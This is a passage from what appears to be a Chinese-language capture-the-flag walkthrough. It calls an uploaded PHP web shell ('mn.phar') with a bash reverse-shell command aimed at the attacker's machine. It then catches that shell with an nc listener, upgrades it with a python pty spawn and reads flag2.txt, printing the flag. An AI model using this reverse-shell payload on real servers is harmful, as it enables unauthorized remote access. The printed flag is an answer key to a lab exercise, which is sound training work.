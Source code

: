 然后访问

```bash
http://172.16.1.65/item/image/mn.phar?cmd=bash -c "bash -i >%26 /dev/tcp/172.16.1.52/123 0>%261"
```

kali

```bash
root@kali:/opt# nc -lvp 123
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::123
Ncat: Listening on 0.0.0.0:123
Ncat: Connection from 172.16.1.65.
Ncat: Connection from 172.16.1.65:42632.
bash: cannot set terminal process group (592): Inappropriate ioctl for device
bash: no job control in this shell

www-data@secure:/var/www/html/item/image$ which python3
/usr/bin/python3
www-data@secure:/var/www/html/item/image$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@secure:/var/www/html/item/image$ tty
/dev/pts/0
www-data@secure:/var/www/html/item/image$ cd /var/www/
www-data@secure:/var/www/$ ls
flag2.txt  html
www-data@secure:/var/www$ cat flag2.txt
legendary

FLAG2: 3599f5effdb3ed07d9a90a4ed19d13ad4

www-data@secure:/var/www$
```

`FLAG2`:`FLAG2: 3599f5effdb3ed07d9a90a4ed19d13ad4`
